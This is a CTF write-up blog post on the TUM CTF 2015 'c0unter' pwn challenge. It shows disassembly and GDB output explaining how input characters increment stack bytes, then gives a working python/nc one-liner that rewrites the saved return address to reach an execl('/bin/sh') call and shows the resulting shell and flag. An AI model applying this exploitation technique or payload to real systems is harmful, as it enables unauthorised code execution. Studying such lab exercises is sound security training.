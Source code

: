```yaml
---
layout: post
title:  "TUM CTF 2015 Teaser - c0unter (pwn 25)"
date:   2015-10-30 20:00
categories: ctf exploit
---
```


I had the possiblity to play a few hours on [TUM CTF Teaser][tum]. It was
nicely organized and the challenges were fun to solve - even for the easy ones.
Here is the first write-up I am going to publish for that CTF.

#Basic information

From the organizers:
{% highlight text %}
Pwn / c0unter
Baby's 1st
ctf.link/assets/downloads/pwn/counter
nc 1.ctf.link 1031
25 Points
{% endhighlight %}

We are facing an ELF 64-bit binary, stripped and with only NX enabled:
{% highlight shell-session %}
$ file counter
counter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=b065123973be4586a6b10f277cda428776bde80b, stripped

$ checksec --file counter
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX enabled    No PIE
RPATH      RUNPATH      FILE
No RPATH   No RUNPATH   counter
{% endhighlight %}

By looking at the relocation table, we can see that the binary must have
somewhere a call to `execl` and another to `fscanf`:
{% highlight shell-session %}
$ objdump -R counter

counter:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600c68 R_X86_64_GLOB_DAT  __gmon_start__
0000000000600d00 R_X86_64_COPY     stdin
0000000000600c88 R_X86_64_JUMP_SLOT  free
0000000000600c90 R_X86_64_JUMP_SLOT  __isoc99_fscanf     <=
0000000000600c98 R_X86_64_JUMP_SLOT  puts
0000000000600ca0 R_X86_64_JUMP_SLOT  __libc_start_main
0000000000600ca8 R_X86_64_JUMP_SLOT  __gmon_start__
0000000000600cb0 R_X86_64_JUMP_SLOT  malloc
0000000000600cb8 R_X86_64_JUMP_SLOT  exit
0000000000600cc0 R_X86_64_JUMP_SLOT  execl               <=
{% endhighlight %}

#Disassembling

When interacting with the service, no welcome message or instruction is
provided, it only seems to echo our input. The call to fscanf is made at `0x40074f`:
{% highlight shell-session %}
$ objdump -M intel -d counter
[snip]
40074f: e8 0c fe ff ff        call   400560 <__isoc99_fscanf@plt>
[snip]
{% endhighlight %}

In GDB with [peda][peda], we can see the arguments given to `fscanf`:
{% highlight shell-session %}
gdb-peda$ b *0x40074f
Breakpoint 1 at 0x40074f
gdb-peda$ r
[snip]
Guessed arguments:
arg[0]: 0x7ffff7dd5900 --> 0xfbad2088 
arg[1]: 0x4008dc --> 0x7331313525 ('%511s')
arg[2]: 0x600d40 --> 0x0 
arg[3]: 0x0 
[snip]
{% endhighlight %}

The first argument is the address of `stdin` in the glibc, the second argument
is the format used to interpret our input and the third argument is the address
of the destination buffer where our input is stored.

Between `0x400794` and `0x4007ae` we can see that the code loops over the buffer, count the occurence of each character of our input and save that information on the stack:

{% highlight shell-session %}
0x400794: mov    eax,0x600d40             ; address of the buffer
0x400799: lea    rcx,[rbp+rax*1+0x0]      ; number of bytes read by fscanf
0x40079e: xchg   ax,ax
0x4007a0: movzx  edx,BYTE PTR [rax]       ; get the value of the current byte
0x4007a3: add    rax,0x1                  ; offset of the next char
0x4007a7: add    BYTE PTR [rsp+rdx*1],0x1 ; increment the counter of this byte
                                          ; by 1
0x4007ab: cmp    rax,rcx
0x4007ae: jne    0x4007a0
{% endhighlight %}

This can be interpreted as the following C code:
{% highlight c %}
for (i = 0; i < input_length; ++i) {
  *(rsp + (byte)input[i]) += 1;
}
{% endhighlight %}

As a byte can contain a value between 0x00 and 0xff, we can manipulate the
stack from its top to 256 bytes further. If the saved `rip` value is contained
within that range, we can hijack the flow of the program.

Here is an example where I've fed the binary with the string `AAAABBBBCCCCDDDD`. To do that I usually create a `fifo`:
{% highlight shell-session %}
$ mkfifo fifo
{% endhighlight %}

In gdb, I use it to feed the binary through its standard input:
{% highlight shell-session %}
gdb-peda$ r < fifo
{% endhighlight %}

And in another shell, I can use any commands to feed the fifo:
{% highlight shell-session %}
$ echo 'AAAABBBBCCCCDDDD' > fifo
$ echo -e -n '\xde\xad\xbe\xef' > fifo
$ python2 -c 'print "..."' > fifo
$ ./script > fifo
{% endhighlight %}

Here is the stack before executing the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

And here it is after the execution of the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000404040400	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

You can see that the bytes between addresses `0x7fffffffdc41` and
`0x7fffffffdc44` have been incremented by 4. These addresses correspond to the
address of `rsp`, `0x7fffffffdc00`, plus the value in bytes of `A`, `B`, `C`
and `D`: `0x41`, `0x42`, `0x43` and `0x44` respectively. You may find more
information about ASCII characters value in hexadecimal [here][ascii].

#Exploitation

Here is the information about the current stack frame, when the vulnerable code is executed:
{% highlight shell-session %}
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffdca0:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffdcb0
 Arglist at 0x7fffffffdbf8, args: 
 Locals at 0x7fffffffdbf8, Previous frame's sp is 0x7fffffffdca0
 Saved registers:
  rbx at 0x7fffffffdc88, rbp at 0x7fffffffdc90, rip at 0x7fffffffdc98
{% endhighlight %}

The distance from the top of the stack (`rsp`) and the location of the saved `rip` is 152 bytes:
{% highlight shell-session %}
gdb-peda$ distance $rsp 0x7fffffffdc98
From 0x7fffffffdc00 to 0x7fffffffdc98: 152 bytes, 38 dwords
gdb-peda$
{% endhighlight %}

If we send to the binary bytes having values between 152 (`0x98`) and 160 (`0xa0`),
we can change the value of the saved `rip` and control the flow of the program
when the current function return.

As mentionned earlier, there is at least a call to `execl` somewhere is the code:
{% highlight shell-session %}
$ objdump -M intel -d counter | grep -B 5 execl
[snip]
4006e0:	bf d4 08 40 00       	mov    edi,0x4008d4
4006e5:	48 83 ec 08          	sub    rsp,0x8
4006e9:	31 d2                	xor    edx,edx
4006eb:	be d9 08 40 00       	mov    esi,0x4008d9
4006f0:	31 c0                	xor    eax,eax
4006f2:	e8 c9 fe ff ff       	call   4005c0 <execl@plt>
[snip]
{% endhighlight %}

This shows to complete call to `execl`:

* the first argument is a string located at `0x4008d4`
* the second argument is a string located at `0x4008d9`
* and the third argument is `0` (`xor    edx,edx`), which is used to indicate
  the end of the arguments list. Here are the strings:
{% highlight shell-session %}
gdb-peda$ x/s 0x4008d4
0x4008d4:	"/bin/sh"
gdb-peda$ x/s 0x4008d9
0x4008d9:	"sh"
{% endhighlight %}

This gives us the following call: `execl("/bin/sh", "sh");`

Let's replace the saved `rip` with `0x4006e0` so that we can spawn a shell when
the function returns.  Saved `rip` minus the address of the call to execl will
give us the number of characters we have to use:

`0x4006e0 - 0x4005d9 = 0x0107` or `0xe0 - 0xd9 = 0x07` and `0x06 - 0x05 = 0x01`

This means that the lowest byte of saved `rip` must be incremented 7 times and
the next one, once:
{% highlight shell-session %}
$ (python2 -c 'print 7 * "\x98" + "\x99" + "\0\0\0\0"'; cat) \
  | nc -v 1.ctf.link 1031
Connection to 1.ctf.link 1031 port [tcp/*] succeeded!
id
uid=1000(counter) gid=1000(counter) groups=1000(counter)
ls -la
total 32
drwxr-xr-x 2 root root 4096 Oct 24 21:00 .
drwxr-xr-x 6 root root 4096 Oct 24 21:00 ..
-rwxr-xr-x 1 root root 5384 Oct 24 00:38 counter
-rw-r--r-- 1 root root   32 Oct 24 12:59 flag.txt
-rwxr-xr-x 1 root root 9384 Oct 24 15:51 ynetd
cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
{% endhighlight %}

Pwned for the glory of the almighty technoviking!
![technoviking](https://www.zazzle.com/rlv/techno_viking_by_redrevolt_make_me_proud_poster-r40c1f27408414a17b6c3c70d65458264_w1t_8byvr_512.jpg)

[tum]: https://ctftime.org/event/238
[peda]: https://github.com/longld/peda
[ascii]: http://www.asciitable.com/
